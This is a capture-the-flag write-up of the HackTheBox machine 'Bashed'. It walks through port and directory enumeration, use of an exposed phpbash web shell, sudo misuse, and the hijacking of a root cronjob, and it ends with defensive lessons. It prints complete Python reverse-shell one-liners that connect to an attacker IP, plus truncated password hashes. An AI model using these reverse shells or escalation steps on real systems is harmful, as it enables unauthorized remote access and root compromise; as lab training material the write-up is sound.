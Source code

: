 [HackTheBox] Bashed
===============
date: 25/Jun/2020
summary: This is a writeup for HackTheBox machine Bashed.
tags: hackthebox, writeup

## Overview
This is a writeup for HTB VM [Bashed](https://www.hackthebox.eu/home/machines/profile/118). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):

![writeup.overview.machinescli](/static/files/posts_htb_bashed/machinescli.png.webp)

### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:

![writeup.overview.killchain](/static/files/posts_htb_bashed/killchain.png.webp)

### TTPs
1\. `80/tcp/http/2.4.18 ((Ubuntu))`: [enumerate_proto_http](https://github.com/7h3rAm/writeups#enumerate_proto_http), [exploit_python_reverseshell](https://github.com/7h3rAm/writeups#exploit_python_reverseshell), [privesc_sudo](https://github.com/7h3rAm/writeups#privesc_sudo), [privesc_cron_rootjobs](https://github.com/7h3rAm/writeups#privesc_cron_rootjobs)  

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.80 scan initiated Fri May 29 19:04:11 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/kali/toolbox/writeups/htb.bashed/results/10.10.10.68/scans/_quick_tcp_nmap.txt -oX /home/kali/toolbox/writeups/htb.bashed/results/10.10.10.68/scans/xml/_quick_tcp_nmap.xml 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up, received user-set (0.32s latency).
Scanned at 2020-05-29 19:04:24 IST for 46s
Not shown: 999 closed ports
Reason: 999 conn-refused
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 29 19:05:10 2020 -- 1 IP address (1 host up) scanned in 59.85 seconds
```

2\. Here's the summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:  

![writeup.enumeration.steps.2.1](/static/files/posts_htb_bashed/openports.png.webp)  

3\. We see that the port `80/tcp` is the only open port on this machine. Let's run `gobuster` and find interesting directories on this web server:  
```
gobuster dir -u http://10.10.10.68:80/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -k -l -s "200,204,301,302,307,403,500" -x "txt,html,php,asp,aspx,jsp" -z -o "/home/kali/toolbox/writeups/htb.bashed/results/10.10.10.68/scans/tcp_80_http_gobuster_dirbuster.txt"
```

4\. We find a few directories from `gobuster` scan and the `/dev` directory lists two interesting files: `phpbash.min.php` and `phpbash.php`  
```
$ cat results/10.10.10.68/scans/tcp_80_http_gobuster_dirbuster.txt 
  http://10.10.10.68:80/images (Status: 301) [Size: 311]
  http://10.10.10.68:80/index.html (Status: 200) [Size: 7742]
  http://10.10.10.68:80/about.html (Status: 200) [Size: 8190]
  http://10.10.10.68:80/contact.html (Status: 200) [Size: 7802]
  http://10.10.10.68:80/uploads (Status: 301) [Size: 312]
  http://10.10.10.68:80/php (Status: 301) [Size: 308]
  http://10.10.10.68:80/css (Status: 301) [Size: 308]
  http://10.10.10.68:80/dev (Status: 301) [Size: 308]
  http://10.10.10.68:80/js (Status: 301) [Size: 307]
  http://10.10.10.68:80/config.php (Status: 200) [Size: 0]
  http://10.10.10.68:80/fonts (Status: 301) [Size: 310]
  http://10.10.10.68:80/single.html (Status: 200) [Size: 7476]
```

![writeup.enumeration.steps.4.1](/static/files/posts_htb_bashed/screenshot03.png.webp)  

![writeup.enumeration.steps.4.2](/static/files/posts_htb_bashed/screenshot01.png.webp)  

5\. We find that [`phpbash`](https://github.com/Arrexel/phpbash) is a minimal web shell that can give us interactive access to the target machine.  

![writeup.enumeration.steps.5.1](/static/files/posts_htb_bashed/screenshot02.png.webp)  

### Findings
#### Open Ports
```
80/tcp  | http      | 2.4.18 ((Ubuntu))
```
#### Files
```
/dev/phpbash.min.php
/dev/phpbash.php
```

## Phase #2: Exploitation
1\. We visit the `/dev/phpbash.min.php` page and find the `phpbash` interactive web shell UI which enables command execution and further enumeration:  

![writeup.exploitation.steps.1.1](/static/files/posts_htb_bashed/screenshot05.png.webp)  

2\. We use a Python reverse shell to obtain interactive access on this system:  
```
nc -nlvp 443
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![writeup.exploitation.steps.2.1](/static/files/posts_htb_bashed/screenshot06.png.webp)  

## Phase #2.5: Post Exploitation
```
www-data@bashed> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bashed>  
www-data@bashed> uname
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@bashed>  
www-data@bashed> ifconfig
ens33   Link encap:Ethernet  HWaddr 00:50:56:b9:44:62  
        inet addr:10.10.10.68  Bcast:10.10.10.255  Mask:255.255.255.255
        inet6 addr: dead:beef::250:56ff:feb9:4462/64 Scope:Global
        inet6 addr: fe80::250:56ff:feb9:4462/64 Scope:Link
        UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
        RX packets:83524 errors:0 dropped:332 overruns:0 frame:0
        TX packets:78785 errors:0 dropped:0 overruns:0 carrier:0
        collisions:0 txqueuelen:1000 
        RX bytes:5305396 (5.3 MB)  TX bytes:8408691 (8.4 MB)

lo      Link encap:Local Loopback  
        inet addr:127.0.0.1  Mask:255.0.0.0
        inet6 addr: ::1/128 Scope:Host
        UP LOOPBACK RUNNING  MTU:65536  Metric:1
        RX packets:444689 errors:0 dropped:0 overruns:0 frame:0
        TX packets:444689 errors:0 dropped:0 overruns:0 carrier:0
        collisions:0 txqueuelen:1 
        RX bytes:32908196 (32.9 MB)  TX bytes:32908196 (32.9 MB)
www-data@bashed>  
www-data@bashed> users
root
arrexel
scriptmanager
```

## Phase #3: Privilege Escalation
1\. We find that the user `www-data` can run any command as user `scriptmanager` using `sudo`:  
```
sudo -l
sudo -u scriptmanager /bin/bash
```

![writeup.privesc.steps.1.1](/static/files/posts_htb_bashed/screenshot07.png.webp)  

![writeup.privesc.steps.1.2](/static/files/posts_htb_bashed/screenshot10.png.webp)  

2\. We find an interesting directory `/scripts` which has two files in it. One is a Python script `test.py` owned by user `scriptmanager` and other is `test.txt` owned by `root`. We use a script `CronJobCheckser.sh` and find that there's a `root` owned cronjob that runs the `test.py` script and which creates the `test.txt` file.  
```
ls -la /scripts
cat /scripts/test.py
```

![writeup.privesc.steps.2.1](/static/files/posts_htb_bashed/screenshot08.png.webp)  

![writeup.privesc.steps.2.2](/static/files/posts_htb_bashed/screenshot09.png.webp)  

![writeup.privesc.steps.2.3](/static/files/posts_htb_bashed/screenshot11.png.webp)  

3\. We can now edit this file to execute a reverse shell that gives us elevated privileges on the system:  
```
nc -nlvp 9999
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >>/scripts/test.py
```

![writeup.privesc.steps.3.1](/static/files/posts_htb_bashed/screenshot12.png.webp)  

4\. As soon as the cronjob runs, we get the elevated shell and can now view the `root.txt` flag file:  
```
cat /root/root.txt
```

![writeup.privesc.steps.4.1](/static/files/posts_htb_bashed/screenshot13.png.webp)  

![writeup.privesc.steps.4.2](/static/files/posts_htb_bashed/screenshot14.png.webp)  

## Learning/Recommendation
* Production web server instances should not host developement tools like a PHP web shell. It allowed the attacker to gain interactive access of the target system.
* Service users should not be allowed to use `sudo`. This misconfiguration enabled attacker to switch to a more privileged user account.
* Cronjob files should be owned by the same user that will be allowed to run it. The attacker was able to use this misconfiguration to modify a file they own and get it executed by `root` user.

## Loot
### Hashes
```
arrexel:$1$mDpVXKQV$o6HkBjhl/e.S.bV96tMm6.:17504:............
scriptmanager:$6$WahhM57B$rOHkWDRQpds96uWXkRCzA6b5L3wOorpe4uwn5U32yKRsMWDwKAm.RF6T81Ki/MOyo.dJ0B8Xm5/wOrLk.........................
```
### Flags
```
/home/arrexel/user.txt: 2c281f318555dbc1b8569...........
/root/root.txt: cc4f0afe3a1026d402ba10..........
```

## References
* <https://www.hackthebox.eu/home/machines/profile/118>  
* <https://medium.com/@ranakhalil101/hack-the-box-bashed-writup-a8e51a2914c2>  
* <https://0xdf.gitlab.io/2018/04/29/htb-bashed.html>  
